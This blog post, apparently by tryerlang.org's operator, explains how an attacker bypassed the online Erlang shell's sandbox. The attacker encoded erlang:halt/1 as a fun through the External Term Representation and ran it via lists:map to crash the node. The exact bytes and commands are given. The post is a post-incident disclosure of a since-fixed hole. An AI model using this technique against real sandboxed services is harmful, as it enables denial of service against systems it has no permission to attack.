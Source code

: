 ```yaml
---
layout      : post
title       : "How they tried to fool tryerlang.org"
description :
headline    :
modified    : 2010-10-14
category    : erlang
tags        : []
image       :
  feature: bg_02.jpg
comments    : true
---
```


<h2>Preface</h2>

<a title="tryerlang.org" href="http://tryerlang.org" target="_blank">tryerlang.org</a> is an _interactive Erlang Shell_ which allows users to try the power of Erlang directly in a browser, without requiring them to install an Erlang runtime system on their machine. Even if intended for Erlang newbies, tryerlang.org has been subjected to a countless number of attacks conducted by Erlang experts who wanted to circumvent its sandboxing mechanism and to bring down the Erlang node running the application. I must admit that going through the tryerlang.org's logs is being an highly interesting and constructive experience.

In this blog post I will present one of the most elaborated attacks performed on tryerlang.org. The attack, which exploits the Erlang _External Term Representation_, has been performed by a former <a href="http://www.erlang-solutions.com" target="_blank">Erlang Solutions</a>' employee who had access to the tryerlang.org source code. To understand how the attack works, we need to introduce the Erlang _External Term Representation_.

<h2>External Term Representation</h2>

In Distributed Erlang, terms can be transferred from an Erlang node to another one using the so-called _binary_ format. Generic terms are encoded in binary from the sender using the built-in function <code>term_to_binary/1</code> and restored from the receiver using the complementary function <code>binary_to_term/2</code>. A binary message looks like this:

<pre>
<<131,100,0,6,112,105,103,101,111,110>>
</pre>

Which, as you can see, represents the binary encoding of the atom <code>pigeon</code>.

<pre>
1&gt; term_to_binary(pigeon).
&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;
2&gt; binary_to_term(&lt;&lt;131,100,0,6,112,105,103,101,111,110&gt;&gt;).
pigeon
</pre>

The _External Term Representation_ of Erlang terms is extensively documented in <a title="Erlang External Term Representation" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html" target="_blank">the official Erlang Documentation</a>. Let's see how the attacker used this concept in his own interest.

<h2>Halting the Erlang Node</h2>

To stop the Erlang node running tryerlang.org, the attacker tries at first the following command:

<pre>
&gt; erlang:halt().
</pre>

This function, documented <a title="Erlang Halt" href="http://www.erlang.org/doc/man/erlang.html#halt-0" target="_blank">here</a>, is supposed to _halt_ an Erlang runtime system, indicating a normal exit to the calling environment. The function has been disabled in tryerlang.org for security reasons, so the only result the user get is the following annoying message:

<pre>
"This functionality has been disabled for security reasons in tryerlang.org.".
</pre>

So, the Erlang node is still up and attacker prepares himself a good cup of Swedish coffee. After a couple of minutes playing with the tryerlang.org shell, the attcker notices that tryerlang.org allows you to define custom <a title="Erlang Funs" href="http://www.erlang.org/doc/programming_examples/funs.html" target="_blank">funs</a>. Then, the intuition. A _fun_, as any other Erlang term, <a title="export_ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id83276" target="_blank">can be encoded using the External Terms Representation</a>. The encoded fun could then be executed. This could hopefully fool the sandboxing mechanism protecting the tryerlang.org and could open a world of possibilities to the attacker.

According to the documentation, the external representation of the fun (in the <code>fun M:F/A</code> format) is the following:

<pre>
113 | Module | Function | Arity
</pre>

Where <code>Module</code> and <code>Function</code> are atoms and <code>Arity</code> is an integer.

Atoms themselves can be encoded using the <a title="atom ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#ATOM_EXT" target="_blank">ATOM_EXT</a> format:

<pre>
100 | Len | AtomName
</pre>

Where <code>Len</code> is the length of <code>AtomName</code>, expressed using two bytes.

For the atom <code>erlang</code>, which is composed of 6 characters (the letters <code>e</code>, <code>r</code>, <code>l</code>, <code>a</code>, <code>n</code> and <code>g</code>) we obtain:

<pre>
100 | 0, 6 | 101, 114, 108, 97, 110, 103
</pre>

Where the integers in the third section are the ASCII codes for each of the letters composing the word "erlang".

Applying the same reasoning to the atom <code>halt</code>, we obtain:

<pre>
100 | 0, 4 | 104, 97, 108, 116
</pre>

Finally, the arity (an integer) can be encoded using the <a title="small integer ext" href="http://www.erlang.org/doc/apps/erts/erl_ext_dist.html#id80902" target="_blank">SMALL_INTEGER_EXT</a> format:

<pre>
97 | Int
</pre>

So, in our case (arity = 0) we obtain:

<pre>
97 | 0
</pre>

Putting all the pieces together and considering that, in the External Term Representation, the byte <code>131</code> needs to be prepended to the final term, we can encode the <code>erlang:halt/</code>0 function into binary, obtaining:

<pre>
&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;
</pre>

Let's verify that we didn't do any mistake:

<pre>
&gt; binary_to_term(&lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;).
&gt; #Fun&lt;erlang.halt.0&gt;
</pre>

Since tryerlang.org doesn't support copy-and-paste from the clipboard, we need to insert the sequence above by hand.

We can bind the binary to a new variable:
<pre>
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,0&gt;&gt;.
</pre>

We now need to convert the binary into an Erlang term. Originally, tryerlang.org was allowing <a title="Erlang Safe Binary To Term" href="http://www.erlang.org/doc/man/erlang.html#binary_to_term-2" target="_blank">the binary_to_term function in safe mode</a>. This function has been now completely disabled after this attack. If you want to try what follows you will need to do it in your own Erlang shell.

<pre>
&gt; F = binary_to_term(B, [safe]).
</pre>

Let's now try to launch the fun as:

<pre>
&gt;F().
</pre>

Well, that didn't work as expected. tryerlang.org actually realized that the <code>erlang:halt/0</code> function was going to be called and the sandboxing mechanism managed to block the execution of the command. We need to do something slightly different. For example, we might pass the newly defined fun as an argument (after all, Erlang is a functional language) to a function who would take care of executing it. As an example, we could use the library function <code>lists:map/2</code>. There's only a little tiny problem with that. The <code>list:map/2</code> function, in fact, requires that the fun passed as an argument receives _exactly one argument_. This is not the case of the <code>erlang:halt/0</code> function, which has arity equal to zero. Fortunately <a href="http://www.erlang.org/doc/man/erlang.html#halt-1" target="_blank">an alternative version of <code>erlang:halt/0</code> exists, taking exactly one argument</a>. The external representation for the new function differs from the previous one by only the very last byte. Let's _forget_ the old value of the variable <code>B</code> and let's bind it to the new binary:

<pre>
&gt; f(B).
&gt; B = &lt;&lt;131,113,100,0,6,101,114,108,97,110,103,100,0,4,104,97,108,116,97,1&gt;&gt;.
</pre>

We can now pass the new fun as an argument to the <code>lists:map</code> function:

<pre>
&gt; f(F).
&gt; F = binary_to_term(B, [safe]).
&gt;lists:map(F, [0]).
</pre>

And the node dies. Well, in reality the node is almost immediately brought back by <a title="Erlang Heart" href="http://www.erlang.org/doc/man/heart.html" target="_blank">heart</a> which is listening for heartbeats from the Erlang node itself but, hey, I have to pay a beer to this guy! :)

I wanted to share this experience with all of you. I consider it highly constructive, since it leads to reflect on several aspects of Erlang. Comments and feedback are more than welcome.
